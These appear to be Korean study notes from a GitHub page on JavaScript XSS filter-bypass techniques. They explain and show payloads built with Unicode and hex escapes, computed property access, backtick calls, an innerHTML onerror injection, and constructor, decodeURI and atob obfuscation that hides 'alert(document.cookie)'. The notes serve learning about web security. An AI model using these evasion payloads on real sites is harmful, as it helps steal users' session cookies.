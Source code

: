 <br>

+ Javascript Unicode escape sequence
  + 문자열에서 유니코드를 코드포인트로 나타낼 수 있는 표기법 
  + 필터링 된 문자열을 유니코드로 변환하면 필터링 우회 가능
  + ```var foo = "\u0063ookie"; // cookie```
  + ```var bar = "cooki\x65";  // cookie```
  + ```\u0061lert(document.cookie);  // alert(document.cookie)```
  + ```\u{61}lert(1) == \u{61}lert`1`// alert(1)```
  + <a href="https://stackoverflow.com/questions/47176226/whats-the-difference-between-u0061-x61-and-141-in-javascript" target="_blank">유니코드는 되는데 헥스는 안되는 이유</a>
  + <a href="https://exploringjs.com/es6/ch_unicode.html" target="_blank">exploringjs.com/es6/ch_unicode.html</a>
  + <a href="https://mathiasbynens.be/notes/javascript-escapes" target="_blank">mathiasbynens.be/notes/javascript-escapes</a>

<br>

+ Javascript Computed member access
  + 객체의 특정 속성에 접근할 때 속성 이름을 동적으로 계산하는 기능
  + ```document["coo"+"kie"] == document["cookie"] == document.cookie```
  + ```alert(document["\u0063ook" + "ie"]);  // alert(document.cookie)```
  + ```document['\x63ookie'];  // document['cookie']```
  + ```0x```와 ```\x```의 차이점은 ```0x```는 숫자로 인식, ```\x```는 문자열로 인식한다.

<br>

+ Javascript Template literals
  + 백틱을 이용해 선언, 내장된 ```${}``` 표현식을 이용해 다른 변수나 식을 사용 가능함.
  + ```var foo = "Hello"; var bar = "World"; var baz = `${foo}, ${bar} ${1+1}.`; // "Hello,\nWorld 2."```
  + <a href="https://stonefree.tistory.com/68" target="_blank">stonefree.tistory.com/68</a>

<br>

+ Javascript Regexp

+ Javascript String.fromCharCode

+ Javascript는 함수 호출 시 ```()``` 와 backtick으로 호출 할 수 있다. 
  + ```e.g   alert(1) == alert`1` ``` 

<br>

+ Javascript document.body.innerHTML
  + innerHTML로 HTML 추가 시 ```<script>``` 태그를 삽입해도 실행되지 않음. 따라서 이벤트 핸들러를 이용해 실행해야 함.
  + ```document.body.innerHTML+="<img src=x: onerror=alert&#40;1&#41;>";```

<br>

+ Javascript constructor, decodeURI, atob를 이용한 우회
  + constructor는 클래스의 객체를 생성, 초기화 하는 메소드
  + ```constructor(alert(document.cookie))();```
  + ```javascript
    Boolean[decodeURI('%63%6F%6E%73%74%72%75%63%74%6F%72')](decodeURI('%61%6C%65%72%74%28%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%29'))();
    // constructor(alert(document.cookie))();
    ```
  + ```javascript
    Boolean[atob('Y29uc3RydWN0b3I')](atob('YWxlcnQoZG9jdW1lbnQuY29va2llKQ'))(); 
    // constructor(alert(document.cookie))();
    ```
